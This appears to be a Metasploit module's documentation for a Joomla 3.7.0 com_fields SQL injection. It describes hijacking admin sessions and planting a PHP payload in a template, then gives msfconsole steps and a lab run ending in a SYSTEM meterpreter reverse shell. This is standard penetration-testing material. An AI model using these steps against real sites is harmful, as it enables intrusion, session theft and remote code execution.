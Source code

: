 ## Vulnerable Application

  This module exploits a SQL Injection vulnerability in the `com_fields` component which was introduced to the core of Joomla in version 3.7.0.
  With the SQLi, it's possible to enumerate cookies of Administrator and Super User users, and hijack one of their sessions. If no Super User is authenticated, the RCE portion will not work. If a session hijack is available, one of the website templates is identified, and our payload is added to the template as a new file, and then executed.

## Verification


  1. Start msfconsole
  2. Do: `use exploit/unix/webapp/joomla_comfields_sqli_rce`
  3. Do: `set rhost [ip]`
  4. Do: `set tageturi [uri]`
  5. Do: `exploit`
  6. Get a shell

## Scenarios

### Joomla 3.7.0 on Windows 7 SP1 with Super User authenticated

```
msf5 exploit(unix/webapp/joomla_comfields_sqli_rce) > run

[*] Started reverse TCP handler on 172.22.222.138:4444
[*] 172.22.222.122:80 - Retrieved table prefix [ unqi0 ]
[*] 172.22.222.122:80 - Retrieved cookie [ ejn9i2c5srk6gchhai4cikdkm3 ]
[*] 172.22.222.122:80 - Retrieved unauthenticated cookie [ 33effe3d96e4c5e749f33b9d639ca36b ]
[+] 172.22.222.122:80 - Successfully authenticated
[*] 172.22.222.122:80 - Creating file [ zM8ZvIAAwxE.php ]
[*] 172.22.222.122:80 - Following redirect to [ /joomlatest/administrator/index.php?option=com_templates&view=template&id=503&file=L3pNOFp2SUFBd3hFLnBocA%3D%3D ]
[*] 172.22.222.122:80 - Token [ df2760a9614efc2566917148ee379c42 ] retrieved
[*] 172.22.222.122:80 - Template path [ /templates/beez3/ ] retrieved
[*] 172.22.222.122:80 - Insert payload into file [ zM8ZvIAAwxE.php ]
[*] 172.22.222.122:80 - Payload data inserted into [ zM8ZvIAAwxE.php ]
[*] 172.22.222.122:80 - Executing payload
[*] Sending stage (37543 bytes) to 172.22.222.122
[+] Deleted zM8ZvIAAwxE.php

meterpreter > getuid
Server username: SYSTEM (0)
meterpreter > sysinfo
Computer    : WIN-V438RLMESAE
OS          : Windows NT WIN-V438RLMESAE 6.1 build 7601 (Windows 7 Professional Edition Service Pack 1) AMD64
Meterpreter : php/windows
meterpreter >
```
